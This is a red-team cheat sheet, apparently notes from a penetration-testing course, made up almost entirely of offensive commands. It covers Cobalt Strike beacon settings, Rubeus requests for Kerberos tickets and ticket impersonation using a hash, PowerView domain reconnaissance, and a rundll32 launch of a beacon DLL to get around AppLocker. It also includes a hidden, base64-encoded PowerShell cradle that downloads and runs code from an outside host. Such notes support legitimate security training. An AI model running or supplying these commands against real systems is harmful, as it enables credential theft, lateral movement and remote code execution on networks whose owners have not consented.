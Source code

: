 ```
spawnto x64 %windir%\sysnative\dllhost.exe
spawnto x86 %windir%\syswow64\dllhost.exe
```

```
ak-settings spawnto_x64 C:\Windows\System32\dllhost.exe
ak-settings spawnto_x86 C:\Windows\SysWOW64\dllhost.exe
```

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:jking /aes256:4a8a74daad837ae09e9ecc8c2f1b89f960188cb934db6d4bbebade8318ae57c6 /domain:DEV /opsec /nowrap
```

List listening bindings
```
run netstat -anp tcp
```

To get beacon to send the info of itself to c2
```
checkin
```

Impersionation with ticket

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:username /password:FakePass /ticket:doIFwj[...]MuSU8=
setal_token xxx

```

Import Powerview

```
powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
```

Convert SID
```
powershell ConvertFrom-SID
```

Pwshell encode
```
PS C:\> 

$str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/c"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))



powershell -w hidden -enc blabla
```

## Recon

[Red Team Ops - Zero-Point Security (zeropointsecurity.co.uk)](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/38125201-powerview)

### Get-DomainUser
Get users and propierties
```
powershell Get-DomainUser -Properties DisplayName, MemberOf | fl
```


### Get-DomainComputer
Get computers

```
powershell Get-DomainComputer -Properties DnsHostName | sort -Property DnsHostName
```

### Get-DomainGroup

Return all domain groups or specific domain group objects.

```
powershell Get-DomainGroup | where Name -like "*Admins*" | select SamAccountName
```

### Get-DomainGPOUserLocalGroupMapping

Enumerate the machines where a specific domain user/group is a member of a specific local group

```
powershell Get-DomainGPOUserLocalGroupMapping -LocalGroup Administrators | select ObjectName, GPODisplayName, ContainerName, ComputerName | fl
```

## Applocker sus

As previously mentioned, DLL enforcement is not commonly enabled which allows us to call exported functions from DLLs on disk via rundll32.  Beacon's DLL payload exposes several exports including DllMain and StartW.  These can be changed in the Artifact Kit under src-main, dllmain.def.

C:\Windows\System32\rundll32.exe http_x64.dll,StartW
